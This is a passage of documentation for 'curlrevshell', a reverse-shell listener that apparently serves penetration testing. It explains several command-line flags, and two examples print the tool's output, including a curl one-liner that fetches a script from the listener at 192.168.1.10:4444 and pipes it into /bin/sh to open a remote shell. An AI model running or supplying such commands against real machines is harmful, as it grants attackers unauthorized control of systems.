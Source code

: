 `-no-timestamps`
----------------
Don't print timestamps.

Handy for copy/pasting, sometimes, or for less clutter during demos.

### Example
Don't print timestamps.
```
$ curlrevshell -no-timestamps
Listening on 0.0.0.0:4444
To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c' | /bin/sh
```

`-one-shell`
------------
Stop listening after a shell has connected.

Handy for having multiple shells at once without having to work out which port
to use.

`-print-ctrl-i`
---------------
Writes to standard output what Tab/Ctrl+I would send, with
[`-ctrl-i`](#-ctrl-i).

Handy for debugging (try piping it to `cat -n`) as well as rolling a shell
functions file for other purposes.

`-print-default-template`
-------------------------
Prints the default callback script template.  See
[`-callback-template`](#-callback-template) for more information.

`-prompt`
---------
Sets the terminal prompt to something not the default `> `.  Don't forget a
trailing space.

Handy for keeping track of multiple shells at once.

### Example
Set the prompt to `target1>`, which is somewhat easier to see.
```
$ curlrevshell -prompt 'target1> '
17:29:24.015 Listening on 0.0.0.0:4444
17:29:24.015 To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c' | /bin/sh

target1>
```
